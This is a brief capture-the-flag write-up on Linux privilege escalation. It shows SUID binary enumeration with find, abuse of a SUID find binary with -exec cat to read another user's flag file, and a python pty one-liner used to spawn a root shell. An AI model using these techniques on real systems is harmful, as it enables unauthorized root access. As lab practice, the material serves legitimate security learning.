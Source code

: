 Escalation
==========

This task was really easy, I found the root privelege escalation before
the user privelege escalation though

To view files as the user igor, I first searched for binaries belonging
to igor:

    # The -print option is nice because it can replace the long winded -exec ls -ldb {} \;
    find / -user igor -perm -4000 -print 2>/dev/null

We found a /usr/bin/find binary and exploited it with the following
command to print the contents of flag1.txt:

    /usr/bin/find /home/igor -name flag1.txt -exec cat {} \;

For root permissions, I ran a find command to view all binaries executed
as root:

    find / -user root -perm -4000 -print 2>/dev/null

We found a system-control binary which allows you to execute one command
as root, to make things a little more fun I spawned a shell rather than
cat'ing out the file contents immediately:

    python -c 'import pty;pty.spawn("/bin/bash")'
